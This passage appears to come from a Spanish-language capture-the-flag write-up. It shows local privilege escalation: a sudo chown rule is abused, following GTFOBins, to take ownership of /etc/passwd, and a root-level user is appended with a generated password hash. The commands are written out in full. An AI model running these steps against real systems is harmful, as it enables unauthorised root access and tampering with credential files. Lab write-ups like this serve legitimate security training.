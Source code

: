 Ahora que estamos como **gladys** probamos a seguir escalando privilegios y vemos que podemos utiliar **chown** como root.
```gladys@d99fe84a5179:/$ sudo -l
Matching Defaults entries for gladys on d99fe84a5179:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User gladys may run the following commands on d99fe84a5179:
    (root) NOPASSWD: /usr/bin/chown
gladys@d99fe84a5179:/$
```
Consultamos de nuevo [GTFOBins](https://gtfobins.github.io/gtfobins/chown/) y vemos como utiliar en este caso el binario **chown**.
```
LFILE=file_to_change
sudo chown $(id -un):$(id -gn) $LFILE
```
La idea es cambiar el propietario del archivo **/etc/passwd** para que sea propiedad de **gladys** y poder añadir un usuario nuevo root.
```
gladys@d99fe84a5179:/$ LFILE=/etc/passwd
gladys@d99fe84a5179:/$ sudo chown $(id -un):$(id -gn) $LFILE
gladys@d99fe84a5179:/$ ll /etc/passwd
-rw-r--r-- 1 gladys gladys 1292 Apr 28 21:08 /etc/passwd
```
```
openssl passwd password
echo 'tbrux:$1$V.hECIJG$KGGWPAuVvrwPgx0SP34HT/0:0:0::/home/tbrux:/bin/bash' >> /etc/passwd
su tbrux
whoami
root
```
